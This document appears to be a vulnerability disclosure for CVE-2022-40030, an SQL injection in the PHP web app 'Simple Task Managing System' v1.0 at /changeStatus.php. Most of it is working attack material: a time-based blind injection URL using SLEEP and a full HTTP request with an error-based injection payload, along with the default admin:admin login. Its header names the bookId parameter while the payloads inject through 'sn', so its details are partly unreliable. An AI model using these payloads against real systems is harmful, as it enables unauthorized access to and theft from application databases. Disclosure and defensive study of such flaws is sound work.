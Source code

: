 # CVE-2022-40030 Simple Task Managing System - SQL injection

Simple Task Managing System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /changeStatus.php

username:admin password:admin ----> {ip}/changeStatus.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/changeStatus.php has SQL injection

Payload: http://localhost:80/cve/Task Managing System in PHP/changeStatus.php?sn=test' AND (SELECT 9797 FROM (SELECT(SLEEP(5)))kKbl) AND 'PmTS'='PmTS&tn=1&status=2

SQL injection because $shortName can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/8.png)

## Payload

```sql
GET http://localhost/cve/Task%20Managing%20System%20in%20PHP/changeStatus.php?sn=test' AND ROW(6066,2526)>(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT (ELT(6066=6066,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 5176 UNION SELECT 2058 UNION SELECT 2430 UNION SELECT 5444)a GROUP BY x) AND 'MkOa'='MkOa
 HTTP/1.1
Host: localhost
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/cve/Task%20Managing%20System%20in%20PHP/changeStatus.php?sn=test
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hvkotkilavedcvtchro67huf9i
Connection: close


```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/9.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/10.png)